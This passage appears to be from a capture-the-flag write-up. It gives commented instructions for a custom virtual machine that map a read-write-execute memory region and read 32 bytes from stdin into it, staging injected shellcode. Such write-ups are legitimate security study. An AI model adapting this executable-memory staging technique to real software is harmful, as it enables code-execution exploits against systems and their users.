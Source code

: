 ```
ADD l3, l0
// l3=34 (mmap argument for memory type)

MOV l2, l1
// l2=8
DEC l2
// l2=7 (mmap rwx prot)

MUL l0, l0
MUL l0, l0
MUL l0, l0
// l0=256

MOV lax, l2
MUL lax, l1
// lax=56
ADD lax, l0
// lax=256+56=312 (syscall number for mmap)

IDK l1, l1
// l1=0x800
MOV l0, l1
MUL l0, l0
// l0=0x400000
MARI
// syscall
```

`mmap` is now called thus mapping `0x800` bytes at `0x400000` with `rwx` protections.

```
SUB l1, l1
ADD l1, l0
// l1=0x400000 (buf)
SUB l0, l0
// l0=0 (stdin)

SUB l2, l2
ADD l2, l3
// l2=34
DEC l2
DEC l2
// l2=32 (count)

ADD l0, l3
// l0=34
SUB l0, l2
// l0=2
IDK l0, l0
// l0=8 (syscall number)
MOV lax, l0
SUB l0, l0
// lax=8 l0=0
MARI
```
`read` is now called to read 32 bytes at `0x400000` from `stdin`
